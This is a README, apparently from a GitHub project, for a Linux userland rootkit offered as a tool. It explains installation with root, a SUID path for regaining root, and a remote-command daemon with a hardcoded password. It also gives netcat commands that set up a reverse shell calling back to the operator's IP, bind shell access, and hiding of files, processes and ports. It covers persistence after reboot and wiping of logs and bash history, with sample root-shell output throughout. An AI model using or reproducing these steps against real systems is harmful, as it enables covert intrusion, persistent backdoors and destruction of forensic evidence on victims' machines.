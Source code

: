 <h2>BDS Linux Userland Rootkit</h2>
<br>
Developed by : Antonius
<br>
Website : www.bluedragonsec.com
<br>
Github : https://github.com/bluedragonsecurity
<br>
Twitter : https://twitter.com/bluedragonsec
<p>
<h3>Features : </h3>
<ul>
  <li>Hide files and directories</li>
  <li>Hide process</li>
  <li>Hide bind shell port, bds daemon port and reverse shell port from netstat</li>
  <li>Rootkit persistence to survive after reboot</li>
  <li>clean logs and bash history during installation</li>
</ul>
</p>

<p>
<h3>Installation</h3>
You need root privilege for installing this rootkit.
<br>
In case you have installed gcc, install it by running the installer script:
<pre>
./install.sh direct
</pre>
<br>
In case you haven't installed gcc, install it by running the installer script :
<pre>
./install.sh
</pre>
</p>

<p>
<h3>Using the Rootkit</h3>
</p>

<p>
<br>
  <h4>Privilege Escalation</h4>
<br>
Once the rootkit installed on the system, in case you lost root privilege, you can regain root privilege by typing :
<br>
<b>/opt/bds_elf/bds_suid</b>
<br>
<pre>
robotsoft@robotsoft:~$ id
uid=1000(robotsoft) gid=1000(robotsoft) groups=1000(robotsoft),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare)
robotsoft@robotsoft:~$ /opt/bds_elf/bds_suid
root@robotsoft:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),999(sambashare),1000(robotsoft)
root@robotsoft:~# 
</pre>
</p>

<p>
<br>
<h4>Using the Rootkit Daemon</h4>
<br>
Rootkit built in daemon is listening on port 31335, default password is : bluedragonsec.
Using the rootkit built in daemon, you can issue a reverse shell connection and executing linux command on target machine (which you have installed rootkit) remotely.
  To connect  to rootkit daemon, open your terminal and type :
  <pre>
  nc "target ip" 31335
  </pre>
<br>
Example : 
<br>
You have installed bds userland on ip address 192.168.43.36 , open terminal and type:
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31335
CMD :
</pre>
Type any linux command in cmd prompt
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31335
Password :bluedragonsec
CMD :id
uid=0(root) gid=0(root) groups=0(root)
CMD :uname -a
Linux robotsoft 5.11.0-49-generic #55-Ubuntu SMP Wed Jan 12 17:36:34 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
CMD :pwd
/
CMD :
</pre>    
</p>

<p>
<br>
<h4>Activating Reverse Shell</h4>
<br>
<br>
To activate reverse shell, you need to set up a port listener using netcat on port 31337, then connect to bds daemon on your target server (with rootkit installed) on port 31335.
<br>
On your machine, open terminal and type:
<br>
<pre>
nc -l -p 31337 -v
</pre>  
Open another terminal tab and connect to target server on port 31335 :
<pre>
nc server ip 31335
then type : 
/opt/bds_elf/bds_bc "your ip address"
</pre>  
Wait a few seconds and you will get reverse shell port connection from your target server.
<br>
Example :
<br>
Server ip address with rootkit installed is at 192.168.43.36, your local machine ip is at 192.168.43.230.
Open terminal on your local machine and set up port listener on port 31337:
<pre>
  robotsoft@robotsoft:~$ nc -l -p 31337 -v
  Listening on 0.0.0.0 31337
</pre>
Open another terminal and connect to daemon on target machine (which you have installed rootkit) :
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31335
CMD :/opt/bds_elf/bds_bc 192.168.43.230
CMD :
</pre>  
Back on your previous netcat listener, you will receive a reverse shell connection : 
<pre>
root@robotsoft:~# nc -l -p 31337 -v
Listening on 0.0.0.0 31337
Connection received on 192.168.43.36 42012
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
</pre>
</p>
<p>
<br>
<h4>Connecting to Bind Shell Port</h4>
<br>
Bind shell port on server (which you have installed rootkit) is at port 31337, the password is <b>bluedragonsec</b></b>.
You can connect to bind shell port using netcat :
<pre>
nc "server ip address" 31337
then type the password : bluedragonsec  
</pre>
Example :
<br>
Server ip address (with bds userland rootkit installed) is at 192.168.43.36.
<pre>
robotsoft@robotsoft:~$ nc 192.168.43.36 31337
Password :bluedragonsec
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux robotsoft-virtualbox 6.2.0-20-generic #20-Ubuntu SMP PREEMPT_DYNAMIC Thu Apr  6 07:48:48 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
</pre>
</p>

<p>
<br>
<h4>Hiding Files and Directories</h4>
<br>
To hide file and directory just give prefix bds_ to file name and directory name
</p>

<b>How to Clean Logs and Bash History ?</b>
<br>
Before running installation script, add username to usernames_to_clear_logs.txt in new line, example:
<pre>
root
robotsoft
</pre>
User logs will be cleaned during rootkit installation
</p>

<p>
<br>
  <h4>Process Hiding</h4>
<br>
This rootkit hides bind shell process, reverse shell process and rootkit built-in daemon process.
</p>

<p>
<br>
<h4>Port Hiding</h4>
<br>
This rootkit hides bind shell port, reverse shell port and rootkit built-in daemon port.
</p>

<p>
<br>
<h4>Persistence</h4>
<br>
  The rootkit is activated every time the system starts up. After the reboot, wait for 2 minutes, the rootkit will be activated.
</p>


